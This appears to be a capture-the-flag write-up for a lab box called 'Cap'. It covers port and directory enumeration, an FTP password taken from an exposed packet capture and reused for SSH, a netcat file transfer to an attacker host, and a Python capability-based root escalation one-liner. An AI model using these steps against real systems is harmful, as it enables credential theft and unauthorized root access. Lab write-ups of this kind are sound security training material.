








enumerating 10.129.12.165

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```


> gobuster dir --url http://10.129.12.165 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

```
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://10.129.13.130/]
/ip                   (Status: 200) [Size: 17446]
/netstat              (Status: 200) [Size: 29100]
/capture              (Status: 302) [Size: 220] [--> http://10.129.13.130/data/1]

```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


# Various thoughts

1. ftp

> ftp 10.129.13.130 21



no anonymous login

2. exploiting vsftpd 3.0.3

known exploits are only denial of service and TLS confusino attack

3. openssh low possiblity 

no critical vuln

4. website fuzz




on /data/0 - we scan  results for various of our own

    GET REQUEST ON CAPTURE

    we can find various pcap file on various id

    one such id is nathan

    40	5.424998	192.168.196.1	192.168.196.16	FTP	78	Request: PASS Buck3tH4TF0RM3!

    

    he seems to be looking at a notes.txt file

    its the password to ftp, lets looks at ftp and notes.txt

on data/1 we have random http requests to places which don't exist.
nc -lc
on data/2 similar to data/1 but we have accesses made to wordpress

5. trying ftp with the password we got



we got user.txt



6. we can try to use the password for ssh

> ssh nathan@10.129.13.130 

we got ssh access

7. using sudo -l for privilege escalation

> sudo -l



no dice

8. runnning linpeas.sh

> curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

> nc -lv -p 1234 > out.file

> nc -vw 3 10.10.17.51 1234


9. finding services with SUID

```
nathan@cap:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount

/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/12398/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2066/usr/lib/openssh/ssh-keysign
/snap/core18/2074/bin/mount
/snap/core18/2074/bin/ping
/snap/core18/2074/bin/su
/snap/core18/2074/bin/umount
/snap/core18/2074/usr/bin/chfn
/snap/core18/2074/usr/bin/chsh
/snap/core18/2074/usr/bin/gpasswd
/snap/core18/2074/usr/bin/newgrp
/snap/core18/2074/usr/bin/passwd
/snap/core18/2074/usr/bin/sudo
/snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2074/usr/lib/openssh/ssh-keysign
nathan@cap:~$ 
```

we will try with pkexec

> /usr/bin/pkexec /bin/sh

did not work correctly configured

10. cap uid on python




/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'




